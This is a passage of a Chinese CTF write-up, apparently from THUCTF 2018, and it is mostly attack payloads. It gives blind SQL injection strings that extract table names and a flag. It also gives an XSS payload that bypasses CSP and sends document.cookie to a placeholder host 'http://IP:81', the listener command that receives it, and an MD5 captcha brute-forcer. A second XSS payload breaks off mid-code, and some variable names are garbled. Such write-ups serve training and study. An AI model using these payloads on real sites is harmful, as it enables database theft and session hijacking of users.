正确的破解表名 Payload 如下：

```
username=qwert'and(substring((select(group_concat(binary(table_name)))from(information_schema.TABLES)where(TABLE_SCHEMA='rctf')),(ord('b')MOD(ord('a'))),(ord('b')MOD(ord('a'))))='p')#&password=qwert
```

得到表名 PIsAukBsoucg 和字段名 wUpWAcapJIxP， 最终破解 flag 的 Payload 如下：

```
username=qwert'and(mid((select(binary(wUpWAcapJIxP))from(PIsAukBsoucg)),(ord('|')MOD(ord(']'))),(ord('b')MOD(ord('a'))))='§T§')#&password=qwert
```

PS：未来有个任务是编写一个自动破解并组装 Flag 的 Python 程序，最好能直接处理 Burp 保存的 HTTP header。

### XSS1 和 XSS2

XSS1 这题是考察 CSP 绕过的，我们截获返回数据包：

![1538226270011](https://saferman.github.io/assets/img/thuctf2018/CSP.png)

使用下述 Payload：

```javascript
<script>
var n0 t = document.createElement("link");n0 t.setAttribute("rel", "prefetch");
n0 t.setAttribute("href", "http://IP:81/?a="+document.cookie);document.head.appendChild(n0 t);
</script>
```

服务单使用命令：

```python
python -m SimpleHTTPServer 81
```

注意登录界面有个验证码，使用的破解代码：

```python
import random
import string
def md5(str):
    import hashlib
    m = hashlib.md5()
    m.update(str)
    return m.hexdigest()
while 1:
    string = ''
    s = string.join(random.sample('qwertyuiopasdfghjklzxcvbnm1234567890',4))
    if md5(s)[0:4] == 'f8f3':
        print s
        break
```

XSS2 的任务是 "The flag is in flag.php : ),  read it using XSS, please.”。Payload 如下：

```javascript
<script type="text/javascript">
function loadXMLDoc()
{
var xmlhttp;
if (window.XMLHttpRequest)
  {// code for IE7+, Firefox, Chrome, Opera, Safari
  xmlhttp=new XMLHttpRequest();
  }
else
  {// code for IE6, IE5
  xmlhttp=new ActiveXObject("Microsoft.XMLHTTP");
  }
xmlhttp.onreadystatechange=function()
```